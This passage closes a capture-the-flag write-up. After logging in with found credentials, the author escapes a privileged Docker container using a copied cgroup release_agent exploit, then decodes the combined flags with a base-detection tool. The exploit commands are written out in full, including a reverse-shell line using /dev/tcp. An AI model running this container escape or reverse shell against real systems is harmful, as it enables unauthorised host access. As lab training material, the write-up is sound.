 Boom, let's see if we can authenticate using `escapegod:y0un33d23sc4p3` credentials.

![[images/final_login.png]]

Looks like we are in container.

![[images/container_ssh.png]]

yup we are. `.dockerenv` file confirms.

If we remember correctly we are in `privileged` container. so lets escape it. I will copy paste the exploit from internet like shameless script kiddy.(I have attached the resource.)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release

host_path= `sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd

echo "bash -i >& /dev/tcp/127.0.0.1/7878 0>&1 > $host_path/output" >> /cmd

chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

```

I wiill be listening for reverse shell outside the container in shell of escapegod user. (escapegod user that we got earlier).

![[images/final_shell.png]]

We have finally got out 8th flag.



# FINAL CHALLENGE

Final challenge was a bit cringe. Personal view, no offence. so task was to combine all the flags and decode it. `base64 -d` command didn't work for me(It did work but it was outputing invalid base64, so i though i might be doing it wrong). I was preety frustrated. There were enough hints directing it towards base64. `Lower your base`, `number 6`. It was enough. I thought it might be some other base encoding, could be base58 or anything. So i checked if there is any tool that auto detects and decodes for me. Quick google shows  `basecrack`.So i grabbed the `basecrack` tool.

![[images/base_crack.png]]


# FINAL WORDS
